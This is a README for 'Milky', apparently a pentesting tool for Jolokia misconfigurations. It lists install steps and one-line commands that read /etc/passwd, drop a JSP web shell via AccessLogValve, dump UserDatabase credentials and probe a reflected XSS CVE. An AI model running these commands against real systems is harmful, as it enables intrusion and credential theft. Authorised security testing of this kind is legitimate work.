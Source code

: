 # Milky

Milky is a lightweight, one‑file toolkit that helps pentesters quickly verify
and exploit common Jolokia misconfigurations / weaknesses (File‑read,
AccessLogValve RCE, UserDatabase dump, Spring `EnvironmentManager` abuse,
reflected XSS CVE‑2018‑1000129).

> Milk soothes the spice, Milky calms down the Jolokia heat. 

## Installation

```bash
git clone https://github.com/unclej4ck/milky.git
cd milky
python3 -m venv venv && . venv/bin/activate
pip install -r requirements.txt
```

## Quick examples

### Verification of Jolokia misconfiguration
```
python3 milky.py http://target:8080/jolokia scan
```
### Read /etc/passwd through DiagnosticCommand
```
python3 milky.py http://target:8080/jolokia read -f /etc/passwd
```

### Drop & verify a JSP shell via AccessLogValve
```
python3 milky.py http://target:8080/jolokia deploy
```

### Dump credentials from the UserDatabase MBean
```
python3 milky.py http://target:8080/jolokia creds
```
### Reflected‑XSS probe (CVE‑2018‑1000129)
```
python3 milky.py http://target:8080/jolokia xss
```

> Add --debug for full HTTP traces and --user/--password for Basic‑Auth.


## TO-DO
- [ ] Adding more exploits
- [ ] Adding more verifications
- [ ] Fixing bugs

## Credits

Thanks to laluka for his work on [jolokia-exploit](https://github.com/laluka/jolokia-exploitation-toolkit).